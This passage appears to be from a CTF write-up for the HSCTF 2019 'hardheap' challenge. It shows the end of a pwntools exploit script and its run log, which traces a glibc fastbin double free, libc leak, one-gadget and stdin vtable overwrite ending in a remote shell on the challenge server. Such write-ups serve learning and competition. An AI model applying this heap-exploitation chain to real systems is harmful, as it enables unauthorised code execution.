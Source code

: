 ```Python
		b *execve
		#dir ~/glibc-2.23/malloc/malloc.c
		c
	""")
else:
	r = remote("pwn.hsctf.com",5555)

exploit()
```



Output:
```
vagrant@ubuntu-xenial:~/sandbox/2019/hsctf/hardheap$ python exploit.py go
[*] '/home/vagrant/sandbox/2019/hsctf/hardheap/hard-heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.hsctf.com on port 5555: Done
[*] faking 0x20 size
[*] faking 0x90 prev size
[*] triggering double free
[*] heap base: 0x5649edcc5000
[*] placing 0x5649edcc5030 as target
[*] overwriting chunk's size (0x20 -> 0x80)
[*] freeing 0x80 chunk to populate chunk with main_arena's ptr
[*] libc leak: 0x7f69f47e4b78
[*] libc base: 0x7f69f4420000
[*] _IO_2_1_stdin_->vtable: 0x7f69f47e49b8
[*] one gadget: 0x7f69f4511147
[*] populating fastbinsY[2] by freeing 0x20 chunk
[*] triggering double free on 0x40 chunk
[*] placing 0x7f69f47e4b3d as target chunk with 0x56 size
[*] filling chunk content with one gadgets
[*] overwriting top ptr with target chunk
[*] subtracting last remainder to 0x30
[*] overwriting vtable with heap chunk
[!] triggering shell via vtable jump
[*] Switching to interactive mode
Done!
Welcome to Hard Heap!
1. Sice a deet
2. Observe a deet
3. Antisice a deet
4. Exit
> $ ls
bin
dev
flag
hard-heap
lib
lib32
lib64
libc.so.6
libc.so.6.zip
```